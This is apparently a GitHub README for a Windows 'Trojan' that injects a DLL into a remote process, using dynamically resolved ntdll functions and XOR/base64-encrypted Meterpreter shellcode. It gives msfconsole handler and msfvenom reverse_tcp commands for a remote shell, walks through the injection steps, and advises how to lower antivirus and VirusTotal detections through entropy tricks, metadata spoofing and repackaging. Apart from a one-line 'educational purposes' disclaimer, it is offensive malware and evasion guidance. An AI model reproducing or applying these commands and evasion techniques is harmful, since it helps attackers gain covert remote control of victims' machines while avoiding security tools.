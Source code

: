 # Native API Dll injector Trojan

Dll injector in a remote process using dynamically resolved Native Api functions and encrypted shellcode, undetected by Windows Defender.
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.


# 💻 Code
Similarly to [this malware](https://github.com/Hue-Jhan/Ntdll-Process-inj-Trojan) i made, this one calls dynamically resolved functions from ntdll.dll, reducing static IAT footprint, it basically retrieves addresses of native api functions at runtime and calls them via a pre-made function pointer to inject a malicious dynamic link library in a target process, the library will upload shellcode into that process.

### 1) Listener and encrypted payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its detected way more than the raw shellcode for some reason:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, use a custom base64_chars set instead of the standard alphabet to obfuscate more, secondly XOR encryption is applied (single-byte key), and finally we convert it into a hexadecimal string. You can find the encrypting code [here](https://github.com/Hue-Jhan/Simple-shellcode-crypter) or you can use your own encryption, but remember not to use rsa or aes or similar encoding algorithms as they are "too perfect" and raise the entropy levels too much.

### 2.1) DLL:

We get a handle to ntdll and we dynamically resolve its functions both in the DLL and in the injector, unlike ```kernel32.dll``` APIs like VirtualAllocEx, ```ntdll``` functions are sometimes less likely to be hooked by EDRs at user level.

- In order to use Ntdll we create custom typedef structs for each function, and we define all the internal structures and objects that they need, sometimes structures may be nested and require even more internal objects;
- Then we use ```GetNtFunctionAddress``` function to dynamically retrieve addresses of NT functions from ntdll using ```GetProcAddress```;
- When the library is attached to the process, it decodes the obfuscated shellcode and using the native api functions it uploads it into memory;
- Then it creates a thread into the same process its being injected into and the previously uploaded shellcode will be executed.

### 2.2) Injector:

The injector loads the dynamic library onto disk, looks for a specific process and injects the library into it:

- First of all we put the malicious dll in the same folder as the injector, we create a resource file and its header and we set the dll as a resource of the injector;
- Secondly on the injector we locate the resource file, calculate its size, upload it to memory, and lock it for access so it can be used without being moved;
- Thirdly we extract the dll from the executable and write it to disk;
- We find a process by PID iterating through a pre-made linked list of ```SYSTEM_PROCESS_INFORMATION``` structs representing all running processes;
- We allocate memory the size of the dll path inside of it and write the path into the process;
- Then we get the handle to kernel32.dll and ntdll.dll and dynamically resolve the address of LoadLibraryA;
- Finally we create a thread that executes the function that loads the malicious dll;
- The Dll decodes the data and uploads it to memory, creating the shell;

Extracting the dll and uploading to disk is risky, in the future i will upload it directly to memory.

# 🛡 AV Detection

The raw Dll gets like 5 detections,  <img align="right" src="media/nt-dll-crypt-reshacked.png" width="350" /> if i upload the metadata and resources of another library such as ntdll itself, the detections drop to 1.

The raw exe file is currently undetected by windows defender but gets blocked by Bitdefender (even the free trial, yes bitdefender is the best av in my opinion, only behind crowdstrike). 

<img align="right" src="media/nt-dll-inj.png" width="350" />

On virus total it gets 11 detections and as usual it doesn't show bitdefender flagging it.

If i obfuscate the file even more with Resource Hacker by inserting the metadata of another well known software like shotcut, the detections drop to 8/9 on virus total. 

You can obfuscate it even more using tools like soggoth, or by turning it into an msi or iso file. <img align="right" src="media/nt-dll-inj-reshacked-shotcut.png" width="400" />
